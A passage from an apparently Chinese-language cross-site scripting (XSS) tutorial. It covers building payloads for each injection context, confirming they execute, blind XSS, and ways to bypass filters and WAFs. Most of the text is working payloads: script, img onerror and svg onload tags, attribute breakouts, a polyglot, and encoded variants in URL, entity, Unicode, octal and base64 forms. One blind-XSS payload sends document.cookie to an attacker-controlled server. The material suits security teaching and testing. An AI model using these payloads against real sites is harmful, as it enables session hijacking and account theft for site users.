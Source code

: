     4.  **构造 XSS Payload (Craft Payload):** 根据上一步确定的上下文，构造能够闭合当前环境并执行 JavaScript 的 Payload。
        *   **HTML 标签之间:** `<script>alert(1)</script>`, `<img src=x onerror=alert(1)>`, `<svg onload=alert(1)>`
        *   **HTML 属性值 (双引号):** `"><script>alert(1)</script>`, `" onmouseover="alert(1)"`
        *   **HTML 属性值 (单引号):** `' onmouseover='alert(1)`
        *   **HTML 属性值 (无引号):** ` onmouseover=alert(1)`
        *   **JavaScript 字符串 (单/双引号):** `';alert(1);//` 或 `";alert(1);//`
        *   **JavaScript 代码逻辑:** 可能需要构造合法的 JS 代码片段。
        *   **URL 上下文:** `javascript:alert(1)` (对 `href`, `src` 等，但现代浏览器限制多), `data:text/html;base64,...`
    5.  **验证执行 (Verify Execution):** 提交构造好的 Payload，观察浏览器是否执行了脚本（例如，是否弹出 `alert` 框，是否向你的服务器发送了请求，DOM 是否按预期被修改）。如果没有成功，分析原因（过滤、编码、CSP、上下文错误），调整 Payload 再试。

*   **手动测试技巧:**
    *   **盲 XSS (Blind XSS):** 如果注入点没有直接回显（例如，提交到后台审核的内容），使用能将信息**外带** (Out-of-Band) 的 Payload。当后台管理员查看时触发，将 Cookie、截图、DOM 内容等发送到你控制的服务器。常用 `<img>`, `fetch`, `XHR` 指向你的服务器。
        *   Payload 示例: `<script>new Image().src="http://attacker-server.com/log?data="+encodeURIComponent(document.cookie)</script>`
    *   **"万能" Payload 尝试 (Polyglot Payload):** 尝试构造能在多种上下文中生效的 Payload（但不保证成功）。例如： `jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e` (这是一个复杂的例子)。
    *   **常用弹窗函数:** `alert()`, `prompt()`, `confirm()` 主要用于快速验证 PoC。实际攻击中会替换为实现具体恶意目标的脚本。

### 八、 XSS 绕过技巧 (Bypass Techniques)

当目标网站存在一些基础的 XSS 防御措施（如长度限制、关键字过滤、基础编码）时，攻击者可能尝试以下技巧绕过：

1.  **绕过前端长度限制 (`maxlength`):**
    *   **方法:** 使用浏览器开发者工具直接修改或移除 HTML 元素的 `maxlength` 属性；或者使用代理工具（如 Burp Suite）拦截请求，在发送给服务器前修改参数值。

2.  **绕过关键字过滤/黑名单:**
    *   **大小写混合:** WAF 或过滤器可能只匹配小写的 `<script>`。尝试 `<ScRiPt>`, `<SCRIPT>`, `<sCrIpT>` 等。HTML 标签和属性名通常不区分大小写。
    *   **双写/拼凑:** 如果过滤器只替换或删除一次匹配到的关键字 (如 `script` -> ``)，可以尝试插入嵌套的关键字：`<scr<script>ipt>alert(1)</scr</script>ipt>` 处理后可能剩下 `<script>alert(1)</script>`。
    *   **使用等效标签/属性/事件:** 如果 `<script>` 被过滤，尝试 `<img onerror=...>`, `<svg onload=...>`, `<body onload=...>`, `<iframe src=javascript:...>`, `<a onmouseover=...>` 等其他可以执行脚本的方式。
    *   **编码绕过:**
        *   **URL 编码 (%HH):** `%3Cscript%3Ealert(1)%3C/script%3E`。服务器端通常会自动解码 URL 参数，但如果过滤发生在解码前或客户端脚本处理编码数据时可能绕过。
        *   **HTML 实体编码 (十进制 `&#DD;` / 十六进制 `&#xHH;`):**
            *   `<img src=x onerror="&#97;&#108;&#101;&#114;&#116;&#40;1&#41;">` (编码了 `alert(1)`)
            *   `&lt;script&gt;alert(1)&lt;/script&gt;` (如果输出在特殊上下文，如 JS 内或特定框架内，可能被二次解码)
        *   **JavaScript Unicode 编码 (`\uHHHH`):** `javascript:\u0061\u006c\u0065\u0072\u0074(1)` (编码了 `alert`)。主要用于 `javascript:` 伪协议或 JS 字符串内部。
        *   **JavaScript 八进制/十六进制编码 (`\NNN`, `\xHH`):** `\141\154\145\162\164(1)` (八进制 `alert`)。
        *   **Base64 编码:** 常用于 `data:` URI 或在 JS 内部 `atob()` 解码执行。`data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==`
        *   **混合/多次编码:** 结合多种编码方式，尝试绕过层层解码或不完善的过滤器。
    *   **使用注释干扰:** `<scr<!-- comment -->ipt>alert(1)</script>`。某些简单的正则表达式过滤器可能被 HTML 注释干扰。
    *   **使用空白字符:**
        *   **Tab (`\t`, `&#9;`), 换行 (`\n`, `&#10;`), 回车 (`\r`, `&#13;`), 换页 (`\f`, `&#12;`) 等:**
            *   `<img src="x" onerror="alert(1)">`
            *   `<img/src="x"/onerror="alert(1)">` (使用 `/` 代替空格)
            *   `<svg	onload=alert(1)>` (使用 Tab)
        *   **空字节 (`%00`)**: 可能用于截断字符串，绕过某些过滤。
